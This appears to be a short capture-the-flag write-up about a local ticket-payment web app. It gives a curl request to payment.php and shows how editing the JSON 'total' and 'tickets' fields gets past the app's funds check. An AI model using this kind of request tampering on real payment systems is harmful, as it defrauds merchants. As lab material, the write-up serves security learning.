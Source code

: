 curl 'http://localhost:2050/payment.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://localhost:2050/' -H 'Content-Type: application/json' -H 'Origin: http://localhost:2050' -H 'Connection: keep-alive' --data '{"total":1500,"tickets":{"0":5},"billing":{"first_name":"eqqn","last_name":"eqqn","email":"grehack@f.tw"}}'

I select the most expensive benefactor ticket

We get Error 400 - Bad request

the data being sent
{"total":1500,"tickets":{"0":5},"billing":{"first_name":"eqqn","last_name":"eqqn","email":"grehack@f.tw"}}

the 1500 probably corresponds to price, so can we go lower?
Lets say... 69?
Still insufficient funds. "0":5 looks interesting, perhaps it is checking the funds


If we send tickets "1":1, which could be the amount of tickets we "bought", or balance, it passes

{"total":1500,"tickets":{"1":1},"billing":{"first_name":"eqqn","last_name":"eqqn","email":"grehack@f.tw"}}
